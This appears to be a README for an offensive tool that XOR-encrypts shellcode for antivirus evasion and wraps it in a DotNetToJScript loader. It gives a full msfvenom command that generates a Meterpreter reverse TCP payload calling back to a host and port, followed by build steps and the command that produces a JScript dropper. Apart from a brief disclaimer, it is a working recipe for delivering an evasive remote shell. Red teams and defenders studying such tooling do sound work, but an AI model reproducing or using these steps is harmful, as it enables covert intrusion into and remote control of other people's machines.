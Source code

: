 
# XOR Encrypted Shellcode Loader for DotNetToJScript

This project provides a method for executing encrypted shellcode using a combination of XOR encryption and the DotNetToJScript tool. It's designed for users who need to execute shellcode within a .NET environment.

## Features

- XOR encryption of shellcode for AV static evasion.
- Integration with DotNetToJScript for seamless execution in a .NET context.

## Prerequisites

- Python 3 (for xor.py script)
- DotNetToJScript - https://github.com/tyranid/DotNetToJScript

## Usage

### Generating XOR Encrypted Shellcode

1. Generate your encrypted shellcode. The following example uses `msfvenom` and the provided Python script:

   ```
   msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.1 lport=1336 -f raw 2>/dev/null | python3 xor.py -t go -x 31 > meterpreter.txt
   ```

   Note: `31` is used as the encryption/decryption key - change this as you see fit.

### Setting Up DotNetToJScript

2. Import the `C#Shellcode Loader` into the DotNetToJScript solution, replacing `TestClass.cs`.

3. Build the solution in release mode.

### Execution

4. Copy `DotNetToJscript.exe` and `NDesk.Options.dll` to your designated folder.

5. Navigate to the `ExampleAssembly` folder and copy `ExampleAssembly.dll`. Ensure these DLL files are in the same directory as `DotNetToJScript.exe`.

6. Create the .js file using DotNetToJScript:

   ```
   DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
   ```

## Disclaimer

This tool is intended for educational and legal usage only. The author is not responsible for misuse or for any damage that may be caused by the tool.
